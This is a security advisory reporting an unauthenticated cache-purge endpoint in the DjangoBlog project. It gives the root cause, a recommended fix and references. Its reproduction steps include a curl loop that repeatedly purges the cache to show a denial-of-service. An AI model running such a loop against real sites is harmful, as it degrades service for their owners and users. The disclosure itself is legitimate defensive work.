

# Vuln-4: Unauthenticated Cache Purge Endpoint

**Project:** DjangoBlog (https://github.com/liangliangyy/DjangoBlog)
**Version:** Latest master (commit `06f76ea`)
**Date:** 2026-03-14
**Severity:** HIGH
**OWASP:** A01:2021 - Broken Access Control
**CWE:** CWE-306 - Missing Authentication for Critical Function

---

## Affected File

```
blog/views.py (lines 406-408)
```

## Root Cause

The `/clean` endpoint clears the entire application cache without requiring any authentication.

## Steps to Reproduce

```bash
# 1. Purge cache (no auth needed)
curl http://127.0.0.1:18000/clean
# Returns: ok

# 2. Repeated purges (DoS amplification)
for i in $(seq 1 5); do
  echo "Purge $i: $(curl -s http://127.0.0.1:18000/clean)"
done
# All return: ok
```


## Impact

Repeated cache purges force all requests to hit the database directly, causing a **cache stampede denial-of-service**. This is trivially scriptable with zero authentication.

## Recommended Fix

Add `@login_required` and `@staff_member_required` decorators to the `/clean` endpoint.

---

## References

- [OWASP Top 10 (2021)](https://owasp.org/Top10/)
- [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)
- [Django Security Best Practices](https://docs.djangoproject.com/en/stable/topics/security/)
- DjangoBlog source: https://github.com/liangliangyy/DjangoBlog
